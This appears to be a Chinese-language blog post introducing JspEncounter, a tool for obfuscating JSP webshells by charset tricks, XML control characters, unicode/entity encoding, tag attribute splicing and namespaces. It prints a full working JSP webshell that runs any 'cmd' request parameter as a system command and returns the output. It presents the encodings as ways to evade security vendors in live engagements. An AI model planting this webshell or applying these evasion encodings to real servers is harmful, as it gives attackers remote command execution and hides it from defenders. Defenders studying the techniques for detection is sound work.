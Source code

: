 # JSP下的白魔法：JspEncounter

@turn1tup

## 前言

​		这几天看到的以前整活的一些有趣的JSP编码手法被补天的分享会提及到，想到有大佬与前些年的笔者一样，发现了这个手法，然后也一样不吝啬分享出来，不免与有荣焉。（麻烦大家反复阅读这句话，我都这么明显了，还有人问我是不是借鉴的别人写出来的..）

​		竟然如此，笔者索性抽出咸鱼时间编写了一个小工具，帮助广大同学们学习该手法，而对应的原理实在枯燥乏味，就算笔者了然，但这最好还是给有心之人可自行查看吧，本文爽就完事了。

​		接下来直接阐述工具相应的矩阵手法及使用效果，而工具使用的注意项及等信息则请在github查看 ：

​		https://github.com/turn1tup/JspEncounter

## 矩阵手法

被工具转换前的原始source.jsp文件内容为：

```jsp
<%@page import="java.util.*,java.io.*" contentType="text/html" %>
<%! class Test{} %>
<%

    if (request.getParameter ("cmd") != null) {
        boolean isWin = System.getProperty("os.name").toUpperCase().contains("WIN");
        String[] cmd = {isWin?"cmd":"/bin/bash",isWin?"/c":"-c",request.getParameter("cmd")};
        InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
        OutputStream outputStream = response.getOutputStream();
        int a;
        outputStream.write(String.valueOf(System.currentTimeMillis()).getBytes());
        while((a=inputStream.read())!=-1){
            outputStream.write(a);
        }
    }

%>
```

工具命令为：

```
java  "-Dfile.encoding=utf-8" -jar JspEncounter.jar -m jsp -c matrix.xlsx -s source.jsp -o result.jsp
```



### magic charset

我们打开 `matrix.xlsx`进行配置，这里配置输出单种字符集文件：

![all_cp037](JSP下的白魔法/magic_charset.png)

执行命令后，输出的编码后的文件:

![magic_charset_demo](JSP下的白魔法/magic_charset_demo.png)

### declare charset

![declare_charset](JSP下的白魔法/declare_charset.png)

demo（放前后都可）:

![declare_charset_demo](JSP下的白魔法/declare_charset_demo.png)



### double chraset

双重字符集，这里以前文UTF-16BE 后文CP037为例：

![double_charset](JSP下的白魔法/double_charset.png)



![double_charset_demo](JSP下的白魔法/double_charset_demo.png)

### controller space

xml 1.1版本下，将标签内的左右括号进行对应的字符替换，该模式目前支持的字符集为utf-8/iso-8859-1/utf-16：

![controller_space](JSP下的白魔法/controller_space.png)

UTF-8字符集情况下：

![controller_space_demo](JSP下的白魔法/controller_space_demo.png)

ISO-8859-1情况下的特殊空白字符：

![controller_space_demo](JSP下的白魔法/controller_space_demo2.png)

### unicode & entity

这里使用双重编码对标签内的代码进行编码，即使用 unicode + html entity：

![entity](JSP下的白魔法/entity.png)



![eneity_demo](JSP下的白魔法/eneity_demo.png)



### ext tags

将代码拼接到 setProperty/useBean标签的属性中 ，该手法参考补天会议：

![exttag](JSP下的白魔法/exttag.png)

![exttag_demo](JSP下的白魔法/exttag_demo.png)

### namespace

![namespace](JSP下的白魔法/namespace.png)



![namespace](JSP下的白魔法/namespace_demo.png)

## 结语

​		通过本工具我们可以便捷地了解JSP中的这些编码手法，各手法的组合需要他们的逻辑不冲突，而某些手法组合的代码实现比较麻烦，笔者就暂先没有整，大家可自行探索。当然，笔者也稍微藏了一手，毕竟如果厂商都明白了，那我们实战起来也就不那么痛快了，但如果你能真正弄懂这个矩阵中的手法，相信也能发现其他手法。而相对整个webshell的混淆知识的图谱来说，本文也只是一角。

## Reference

https://www.anquanke.com/post/id/210630

https://www.anquanke.com/post/id/209826

`extTag setProperty/useBean拼接代码手法` 参考补天2022 webshell黑魔法



